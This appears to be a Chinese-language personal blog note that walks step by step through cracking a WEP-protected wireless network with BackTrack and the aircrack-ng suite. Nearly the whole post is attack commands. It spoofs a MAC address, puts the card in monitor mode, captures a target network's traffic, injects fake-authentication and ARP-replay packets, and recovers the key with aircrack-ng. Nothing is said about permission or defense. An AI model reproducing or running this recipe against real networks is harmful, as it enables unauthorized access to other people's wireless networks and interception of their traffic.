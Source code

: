 ```yaml
---
layout: post
title: "BackTrack破解无线网络WEP加密"
description: ""
category: get 
tags: [BackTrack]
---
```

{% include JB/setup %}

> 这只是一则笔记...

### 查看无线网卡信息
```
iwconfig
ifconfig -a
```

### 停止无线网卡
```
ifdown (interface)
ifdown wlan0
```

### 伪装MAC地址
```
macchanger –mac 11:22:33:44:55:66 (interface)
macchanger –mac 11:22:33:44:55:66 wlan0
```

### 开启无线网卡monitor模式
```
airmon-ng start (interface)
airmon-ng start wlan0
```

### 查看附近无线网络信息
```
airmon-ng (new interface)
airodump-ng mon0
```

### 对某无线网络抓包 (保留此窗口，名为"窗口D")
```
airodump-ng -c (channel) -w (dump-name) –bssid (BSSID) (new interface)
airodump-ng -c 6 -w network.out –bssid (BSSID的MAC) mon0
```

### 攻击测试，等待成功字样，成功后继续；如果没有返回，可能由于信号不好
```
aireplay-ng -1 0 -a (BSSID) -h (faked:mac) -e (essid) (new interface)
aireplay-ng -1 0 -a (BSSID的MAC) -h 11:22:33:44:55:66 mon0
```

### 开始攻击，观察"窗口D"的 #Data 的值的变化，通常等待3-5分钟，#Data 值将快速增加
```
aireplay-ng -3 -b (bssid) -h (faked:mac) (new interface)
aireplay-ng -3 -b (BSSID的MAC) -h 11:22:33:44:55:66 mon0
```

### 如果上面的命令没有导致#Data增加则尝试此命令
```
aireplay-ng -2 -F -p 0841 -c FF:FF:FF:FF:FF:FF -b (bssid) -h 11:22:33:44:55:66 (new interface)
aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b (BSSID的MAC) -h 11:22:33:44:55:66 mon0
```

### 当 #Data 达到5000可以开始破解
```
aircrack-ng -n (64/128) -b (BSSID) (dump-name)-01.cap
aircrack-ng -n 128 -b (BSSID的MAC) network.out-01.cap
```

### 破解完成需要停止网卡monitor模式，或者重启
```
airmon-ng stop mon0
```
